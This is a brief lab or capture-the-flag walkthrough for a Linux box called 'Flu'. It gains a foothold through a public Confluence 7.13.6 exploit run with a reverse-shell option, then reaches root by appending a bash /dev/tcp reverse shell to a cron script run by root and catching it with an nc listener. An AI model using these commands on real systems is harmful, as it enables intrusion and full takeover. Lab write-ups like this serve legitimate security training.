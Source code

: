 # Flu (Linux)

## Initial Foothold

Atlassian Confluence 7.13.6 exploit ([github.com/jbaines-r7/through_the_wire](https://github.com/jbaines-r7/through_the_wire))
```bash
python3 through_the_wire.py --rhost 192.168.110.41 --rport 8090 --lhost 192.168.45.166 --protocol http:// --reverse-shell
```

## Privilege Escalation

Checked with linpeas.sh, found nothing.  
Used pspy32s and noticed root was running `/opt/log-backup.sh`.
Appended a reverse shell command:
```bash
echo "bash -i >& /dev/tcp/192.168.45.166/80 0>&1" >> /opt/log-backup.sh
```
Started a listener:
```bash
nc -nlvp 80
```
Root shell received when cron ran the script.
